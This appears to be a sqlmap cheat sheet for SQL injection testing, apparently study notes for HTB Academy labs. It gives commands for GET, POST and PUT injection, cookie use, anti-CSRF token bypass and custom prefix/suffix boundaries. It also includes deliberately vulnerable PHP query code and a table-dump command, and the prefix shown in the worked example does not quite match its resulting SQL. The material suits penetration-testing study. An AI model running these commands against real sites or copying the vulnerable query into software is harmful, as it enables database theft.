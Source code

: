 ##### Request Types & Methods
```bash
# GET requests (default)
sqlmap -u "http://www.example.com/vuln.php?id=1"      # Basic GET request

# POST requests
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'           # POST with data
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'          # POST with injection point (*)

# PUT requests
sqlmap -u www.target.com --data='id=1' --method PUT    # PUT request

# HTTP request file
sqlmap -r req.txt                                      # Use saved HTTP request file
```

##### Headers & Authentication
```bash
# Cookie handling
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'  # Specify cookies

# Anti-CSRF token bypass
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

##### Output & Verbosity
```bash
# Traffic logging
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt  # Store traffic

# Verbosity levels
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch     # Verbosity level (0-6)
```

##### Attack Tuning & Advanced Options

#### Prefix/Suffix Customization

**What are Boundaries?**
Every SQLMap payload consists of:
- **Vector**: Core SQL code (e.g., `UNION ALL SELECT 1,2,VERSION()`)
- **Boundaries**: Prefix/suffix formations for proper injection

**When to Use Prefix/Suffix:**
```bash
# Custom boundaries for non-standard injection points
sqlmap -u www.example.com/?q=test --prefix="%'))" --suffix="-- -"
```

**Real Example (HTB Academy Case #6):**
```php
// Vulnerable PHP code:
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";

// Required injection:
sqlmap -u 'http://target/case6.php?col=id' --prefix='`)' --batch -T flag6 --dump

// Resulting SQL:
SELECT id,name,surname FROM users WHERE id LIKE (('test`)) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```
